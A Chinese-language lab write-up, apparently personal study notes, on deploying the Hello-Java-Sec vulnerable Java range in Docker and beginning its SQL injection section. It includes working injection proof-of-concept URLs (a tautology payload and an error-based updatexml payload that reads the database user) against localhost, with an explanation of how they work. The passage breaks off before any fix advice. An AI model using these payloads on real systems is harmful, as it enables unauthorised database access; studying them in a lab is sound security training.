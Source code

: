 # 环境部署
该靶场通过Docker在Ubuntu虚拟机中部署：

```bash
git clone https://github.com/j3ers3/Hello-Java-Sec
cd Hello-Java-Sec
mvn clean package -DskipTests
docker-compose up
```

部署完成后在浏览器输入[http://127.0.0.1:8888/](http://127.0.0.1:8888/)进入登录界面，默认账号/密码是admin/admin。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756262988205-acf037df-4c04-4e72-86d3-7ac398539a52.png)

# 漏洞成因及修复意见
## SQL注入
### JDBC
#### 漏洞成因
1. 直接拼接

采用Statement方式拼接SQL语句：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756279528021-1dfb69f4-e222-41f4-ad3a-fca76cea6574.png)

PoC：

    - 返回所有用户数据

```plain
http://127.0.0.1:8888/vulnapi/sqli/jdbc/vul1?id=' or '1'='1
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756279671196-da02d0f2-be1e-4c13-b610-298ab52233c2.png)

    - 返回当前数据库用户

```plain
http://127.0.0.1:8888/vulnapi/sqli/jdbc/vul1?id=1' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756280067424-60728567-da23-4489-88a0-89fbb98aa39a.png)

P.S.，`updatexml()` 是 MySQL 的一个 XML 函数，语法为：

```plain
updatexml(XML_document, XPath_string, new_value)
```

如果传入的XPath不合法，MySQL会抛出错误，并把出错的字符串内容返回。`0x7e`是十六进制的`~`符号，用来做分隔符。`(SELECT user())`会返回当前数据库用户，例如：`root@localhost`。`--+`是SQL注释符号，表示把后面原始语句截断，不执行。标准 SQL的注释符号是`--`， 在MySQL中必须写成`-- `（后面有空格）。`--+`其中的`+`在 URL 编码里等价于空格，所以`--+`实际就是`-- `，也可以写成`--%20`（`%20` 是 URL 编码的空格 ）或者`-- -`（直接手动加一个空格）。 

